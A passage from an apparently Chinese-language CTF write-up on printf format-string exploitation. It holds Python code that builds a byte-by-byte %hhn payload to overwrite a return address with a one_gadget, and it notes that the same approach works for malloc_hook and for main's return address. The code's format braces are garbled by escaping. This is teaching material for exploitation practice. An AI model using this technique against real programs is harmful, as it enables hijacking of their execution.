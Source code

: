 
生成好的payload在printf栈中

[![](https://p0.ssl.qhimg.com/t01e1c4a0e4667a41b8.png)](https://p0.ssl.qhimg.com/t01e1c4a0e4667a41b8.png)

printf函数执行后

[![](https://p2.ssl.qhimg.com/t01a3f2588c79c6d8ca.png)](https://p2.ssl.qhimg.com/t01a3f2588c79c6d8ca.png)

返回地址已经被修改

再来看看一次修改一字节的payload生成，实际上就是把0x10000改成0x100，$hn改成$hhn，payload对齐字节要更多以及偏移量要变化

```
write_size=0
offset=60
payload=''

for i in range(6):
  num=(onegadget&gt;&gt;(8*i))&amp;0xff
  num-=27
  if num&gt;write_size&amp;0xff:
    payload+='%`{``}`c%`{``}`$hhn'.format(num-(write_size&amp;0xff),offset+i)
    write_size+=num-(write_size&amp;0xff)
  else:
    payload+='%`{``}`c%`{``}`$hhn'.format((0x100-(write_size&amp;0xff))+num,offset+i)
    write_size+=(0x100-(write_size&amp;0xff))+num
payload=payload.ljust(0x60-13,'a')
for i in range(6):
  payload+=p64(rip+i)
```

此时的payload在栈空间中

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0187fcf9913c3469e1.png)

修改完后

[![](https://p0.ssl.qhimg.com/t0115dcab0c21dba9e8.png)](https://p0.ssl.qhimg.com/t0115dcab0c21dba9e8.png)

改malloc_hook和改返回地址是一样的，只需要把最后的地址换成malloc_hook的地址就行

还有一种方法就是修改main函数的返回地址

[![](https://p5.ssl.qhimg.com/t01a52413e47d049ac5.png)](https://p5.ssl.qhimg.com/t01a52413e47d049ac5.png)

但因为main函数在while死循环里，所以我们还需要使main函数跳出循环

在IDA的graph view界面里我们可以看到代码块都走向了同一处

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0167b52c73fe1dbb01.png)

